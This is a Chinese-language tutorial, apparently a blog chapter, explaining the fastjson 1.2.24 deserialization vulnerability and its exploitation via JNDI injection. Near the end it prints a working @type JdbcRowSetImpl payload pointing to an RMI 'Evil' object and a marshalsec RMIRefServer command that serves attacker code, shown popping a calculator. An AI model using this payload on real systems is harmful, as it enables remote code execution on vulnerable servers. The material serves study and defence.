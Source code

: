 ### 0x01 前言

前一章简单介绍了jndi注入的知识，这一章主要是分析一下fastjson 1.2.24版本的反序列化漏洞，这个漏洞比较普遍的利用手法就是通过jndi注入的方式实现RCE，所以我觉得是一个挺好的JNDI注入实践案例。


#### 0x02 fastjson反序列化特点

不同于我们之前提到的java反序列化，fastjson的序列化有其自身特点，我们通过一些小demo来展示如何使用fastjson。我们常说的fastjson的序列化就是将java对象转化为json字符串，而反序列化就是将json字符串转化为java对象。

- fastjson 序列化demo:

```java
import com.alibaba.fastjson.JSON;

public class Test {
    public static void main(String[] args){
        User user = new User();
        user.setName("axin");
        user.setAge(18);

        String json = JSON.toJSONString(user);
        System.out.println(json);
    }
}
```

其中User类如下：

```java
public class User {
    private int age;
    public String name;
    public void sayHello(){
        System.out.println("Hello, I am "+name);
    }
    public void getName(){
        System.out.println(name);
    }

    public int getAge() {
        return age;
    }

    public void setAge(int age) {
        this.age = age;
    }

    public void setName(String name) {
        this.name = name;
    }
}
```

运行Test类，就会得到如下json字符串：

![](fastjson1224/json.png)


- fastjson 反序列化demo


fastjson反序列化有个特点，就是会自动调用目标对象的setXXX方法，例如{"name","axin", "age": 18}被反序列化时会自动调用对应对象的setName以及setAge方法，我们用代码实践一下，看看是否的确如此

修改一下User类：

```java
public class User {
    private int age;
    public String name;
    public void sayHello(){
        System.out.println("Hello, I am "+name);
    }
    public void getName(){
        System.out.println(name);
    }

    public int getAge() {
        return age;
    }

    public void setAge(int age) {
        this.age = age;
        System.out.println("调用了setAge");
    }

    public void setName(String name) {
        this.name = name;
        System.out.println("调用了setName");
    }
}
```

然后新建一个反序列化的类：

```java
import com.alibaba.fastjson.JSON;

public class JsonToObj {
    public static void main(String[] args){
        String str = "{\"age\":18,\"name\":\"axin\"}";
        User user = JSON.parseObject(str, User.class);
    }
}
```

运行该类，得到如下结果，说明反序列化的过程中确实调用了setXXX方法：

![](fastjson1224/json_to_obj.png)

其实fastjson反序列化是有两个api的，一个是上面demo中用到的parseObject()还有一个是parse()方法，他们的最主要的区别就是前者返回的是JSONObject而后者返回的是实际类型的对象，当在没有对应类的定义的情况下，通常情况下都会使用JSON.parseObject来获取数据。

而且在直接使用JSON.parseObject()方法反序列化json字符串的时候是不会调用对应对象的setXXX方法的，那么怎么才能让直接使用JSON.parseObject()反序列化的对象也调用setXXX方法呢，答案是利用@type属性，来看下对比：

![](fastjson1224/type.png)

可见加了@type属性就能调用对应对象的setXXX方法，那这个@type属性具体是干嘛的呢?其实从上面的demo应该也能得知一二了，就是指定该json字符串要反序列化到哪个类。这个属性让我们的漏洞利用如鱼得水～

> ps: fastjson反序列化默认只能反序列化公共属性，如果想要对应的私有属性也被反序列话，则需要下面这样添加一个Feature.SupportNonPublicField参数：
> `JSON.parseObject(myJSON, User.class, Feature.SupportNonPublicField);`


### 0x03 fastjson反序列化——JNDI攻击向量

有了上面的知识铺垫，大家应该能够想到怎么利用fastjson的反序列化执行命令了吧?就是利用@type属性以及自动调用setXXX方法，如果我们能够找到一个类，而这个类的某个setXXX方法中通过我们的精心构造能够完成命令执行不就行了嘛~

`com.sun.rowset.JdbcRowSetImpl`就是这么一个类，这个类中有两个set方法，分别是setDataSourceName()与setAutoCommit(),我们看一下相关实现：

setDatasourceName

```java
    public void setDataSourceName(String name) throws SQLException {

        if (name == null) {
            dataSource = null;
        } else if (name.equals("")) {
           throw new SQLException("DataSource name cannot be empty string");
        } else {
           dataSource = name;
        }

        URL = null;
    }
```

setAutoCommit

```java
    public void setAutoCommit(boolean var1) throws SQLException {
        if (this.conn != null) {
            this.conn.setAutoCommit(var1);
        } else {
            this.conn = this.connect();
            this.conn.setAutoCommit(var1);
        }

    }
```

这里的setDataSourceName就是设置了dataSourceName,然后在setAutoCommit中进行了connect操作，我们跟进看一下

```java
    protected Connection connect() throws SQLException {
        if (this.conn != null) {
            return this.conn;
        } else if (this.getDataSourceName() != null) {
            try {
                InitialContext var1 = new InitialContext();
                DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());
                return this.getUsername() != null && !this.getUsername().equals("") ? var2.getConnection(this.getUsername(), this.getPassword()) : var2.getConnection();
            } catch (NamingException var3) {
                throw new SQLException(this.resBundle.handleGetObject("jdbcrowsetimpl.connect").toString());
            }
        } else {
            return this.getUrl() != null ? DriverManager.getConnection(this.getUrl(), this.getUsername(), this.getPassword()) : null;
        }
    }
```

可以看到这里connect方法中有典型的jndi的lookup方法调用，且参数就是我们在setDataSourceName中设置的dataSourceName。

具体的代码就先不分析了，fastjson反序列化的流程大概就是先进行json数据的解析，我个人认为这个分析是个体力活，一步一步调试就行了，就没必要再写出来了。然后我们现在知道了上面两个setXXX方法有问题，怎么构造poc呢？如下就行：

`{"@type": "com.sun.rowset.JdbcRowSetImpl", "dataSourceName":"rmi://127.0.0.1:1099/Evil", "autoCommit":true}}`

可见dataSourceName的值为我们恶意的rmi对象，之前我们都是自己写代码注册rmi对象的，现在介绍一个线程的部署rmi服务的工具：

https://github.com/mbechler/marshalsec

需要自己用maven工具生成jar包，使用说明中有介绍，我们用该工具快速搭建一个rmi服务器，并把恶意的远程对象注册到上面，使用如下命令：

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1:8000/#Evil`

其中我们的恶意对象是放在本地的一个运行在8000端口的web服务上的（我们可以用python快速搭建一个web服务器）

弹个计算器

![](fastjson1224/calc.png)






